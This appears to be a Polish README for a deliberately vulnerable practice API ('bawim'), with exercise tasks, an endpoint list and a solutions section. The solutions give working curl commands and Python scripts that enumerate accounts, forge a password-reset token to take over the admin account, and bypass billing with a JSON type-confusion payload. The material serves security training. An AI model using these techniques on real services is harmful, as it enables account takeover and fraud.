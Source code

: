 # bawim
## Analiza oraz wykorzystanie podatności w zapytaniach HTTP pomiędzy aplikacją mobilną i API
Instalacja nie jest wymagana, API znajduje się pod adresem https://bawim.tk.  
Do wysyłania zapytań najlepiej użyć narzędzia curl lub serwisu https://postman.co.

## Zadania
[przykładowe] 0. Znajdź wersję aplikacji.  
curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/get_app_version

1. Znajdź ID konta 'admin', a następnie klucz przypisany do konta.
2. Przy użyciu znalezionego klucza wypisz szczegółowe informacje o koncie 'admin'.
3. Zresetuj hasło admina, znając kod funkcji weryfikującej token.  
![alt text](https://github.com/matih123/bawim/blob/master/verify.png)  
4. Zaloguj się na konto admina (podaj id sesji).  
5. Znajdź użytkownika, który ma na koncie $1.000.000.  
podpowiedź: napisz prosty skrypt np. w pythonie (moduł requests).  
![alt text](https://github.com/matih123/bawim/blob/master/requests.png)  
6. Ustaw typ konta na premium dowolnemu użytkownikowi.  
podpowiedź: https://youtu.be/MpeaSNERwQA.

## Lista endpointów API

Wszystkie endpointy działają w oparciu o metodę POST oraz wymagają uwierzytelnienia kluczem globalnym (-d key=Re2LPGUMEKa34ik1uhHOBMoc). 

* https://bawim.tk/get_app_version  
parametry: key   
* https://bawim.tk/user/{user_id}  
parametry: key  
* https://bawim.tk/user_data/{user_id}  
parametry: key, user_key  
* https://bawim.tk/login/{username}  
parametry: key, password  
* https://bawim.tk/reset_password/{user_id}  
parametry: key  
* https://bawim.tk/set_password/{user_id}/{token}  
parametry: key, new_password  
* https://bawim.tk/set_premium_account/{user_id}  
parametry: key, billing_token, json - ten endpoint obsługuje dane wejściowe w formacie json (-d json={json_string})  

## Rozwiązania
<details>
  <summary>Pokaż</summary>
  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/login/admin  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/user/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d user_key=AnbgzkuaayRdT4HIab8lV513 https://bawim.tk/user_data/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/reset_password/386  
  ```python
  # Funkcja generujaca token yKW@n3UoT5n@xU5n@xUu.s
  def generate():
    plaintext = ('386' + 'admin' + 'admin@bawim.tk')[::-1]
    token = ''
    alphabet = string.ascii_letters + string.digits + '@.'
    sbox = '2k8PseIuF.YTWUovx6BqbnOyQ@5dtERZKMc3iwg7jLN40lzpJmrHAShVaf1XCG9D'

    for char in plaintext:
        token += sbox[(alphabet.index(char) + 13) % len(alphabet)]

    return token
  ```
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d new_password=<wpisz_nowe_hasło_admina> https://bawim.tk/set_password/386/yKW@n3UoT5n@xU5n@xUu.s  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d password=<wpisz_nowe_hasło_admina> https://bawim.tk/login/admin  
  ```python
   # Znajdywanie użytkownika, który ma na koncie $1.000.000
  import requests, json

  i=0
  while True:
      text = requests.post(f'https://bawim.tk/user/{i}', data={"key": "Re2LPGUMEKa34ik1uhHOBMoc"}).text
      json_data = json.loads(text)
      user_key = json_data['user_key']

      text = requests.post(f'https://bawim.tk/user_data/{i}', data={"key": "Re2LPGUMEKa34ik1uhHOBMoc", "user_key": user_key}).text
      json_data = json.loads(text)
      money = json_data['money_amount']
      username = json_data['username']
      print(username, money)

      if(money == "1000000"): break
      i+=1
```
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d json={\"billing_token\":[]} http://bawim.tk/set_premium_account/200  
  
</details>
